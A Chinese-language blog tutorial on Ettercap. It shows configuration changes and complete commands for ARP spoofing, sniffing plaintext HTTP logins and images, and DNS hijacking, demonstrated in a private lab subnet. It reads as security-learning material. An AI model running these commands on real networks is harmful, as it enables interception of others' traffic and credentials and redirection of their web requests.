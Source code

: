```yaml
---
title: Ettercap 简易入门
date: 2019-07-20 00:03:58
tags:
  - Kali
  - 实践记录
  - DNS
  - 网络
categories:
  - 安全工具
featuredImage: 0.jpg
---
```


关于 Ettercap 的有趣例子。

<!--more-->

## 安装与配置

安装很容易：

```shell
$ apt install ettercap-text-only
```

使用前需要修改配置，给予 Ettercap 足够的权限。配置文件位于 `/etc/ettercap/etter.conf`，找到：

```
[priv]
ec_uid = 65500
ec_gid = 65500
```

将两个值都修改为 0，表示给予 root 权限。

另外，如果想嗅探 https 包则需要根据配置文件的提示去除指定的注释。我这里使用的是 Linux 系统，防火墙为 iptables，所以我取消注释了 177 和 178 两行。

```
# if you use iptables:
   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
```

## ARP 欺骗

我们知道，ARP 请求包是广播发送的，然而 ARP 应答包则是单播发送的。因此通过 Ettercap，我们可以在收到同一网段内的其它主机广播的 ARP 请求后，向它们发送 ARP 应答包，使它们认为我们的主机就是网关。这样一来，任何发送至外网的请求都将经过我们的主机。

如果我们成功实施了 ARP 欺骗，作为一个伪网关，就可以截获同网段内所有发送至外网的流量。我们可以选择不再将这些数据包转发至外网，这将使得该网段内所有其它主机无法上网：

```shell
$ arpspoof -i eth0 -t 192.168.159.128 192.168.159.2
```

其中 `-i` 指定网卡接口，`-t` 指定要欺骗的目标主机，最后的 IP 地址是本网段内真正的网关地址。如何查看真正的网关地址呢？

简便的方法是直接查看当前连接的网络属性，里面会直接显示 `默认网关` 字段。另一种方法是 `traceroute 任意外网网址 `，这样第一跳的地址必定是网关地址。

```shell
$ traceroute baidu.com
traceroute to baidu.com (123.125.114.144), 30 hops max, 60 byte packets
 1  _gateway (192.168.159.2)  0.947 ms  0.819 ms  0.681 ms^C
```

结果：

![图 1](0.jpg)

![图 2](1.jpg)

或者，我们照常转发流量（这个操作由 Ettercap 自动完成），但是将数据包中的图片存储下来：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
$ driftnet -i eth0 -b -a -d pic
```

其中 `-T` 表示只使用命令行，`-q` 表示不显示具体数据包信息，`-M` 指定使用的模式，`///` 表示同网段下所有主机，`-b` 表示声音提醒，`-a` 保存图片，`-d` 指定保存目录。

由于 Ettercap 截获的是整个数据包，因此常常可以获取比图片更敏感的信息。举个例子，假设我们已经开始 ARP 欺骗：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
```

这时，同网段主机访问了一个 http 网站并进行登录。我们可以在命令行看到：

![图 3](2.jpg)

由于帐号和密码是明文传输的，我们可以轻易得到帐号 `10175101282` 和密码 `aaaaaa`。

## DNS 劫持

作为伪网关，我们当然也可以将一些域名解析到指定的 IP，实现 DNS 劫持。首先修改另一个配置文件 `/etc/ettercap/etter.dns`，在这里面可以输入域名匹配规则与解析规则，如:

```
*.edu.cn           A   192.168.159.135
```

可以看出，前面是一个类正则的域名匹配规则，然后中间指定 `A Record`，最后指定要解析到哪个 IP 地址上，这里我们使用了攻击者主机内网 IP。

保存后，我们在本机开一个服务器：

```shell
$ service apache2 start
```

然后开始 DNS 劫持：

```shell
$ ettercap -i eth0 -Tq -P dns_spoof /// ///
```

当受害者主机访问类似 [aaa.ecnu.edu.cn](#) 的域名时，将会看到我们的 Apache 服务器的默认页面，这样就完成了 DNS 劫持。命令行提示：

```
dns_spoof: A [aaa.ecnu.edu.cn] spoofed to [192.168.159.135]
```

结果：

![图 4](3.jpg)

## 小结

显然上述攻击都有一个共同的前提，那就是攻击者和受害者处于同一网段。由此不难发现，局域网内的安全是十分脆弱的，这是由局域网内主机互相访问的便利性所带来的代价，而如何防护这类攻击是需要进一步思考的问题。
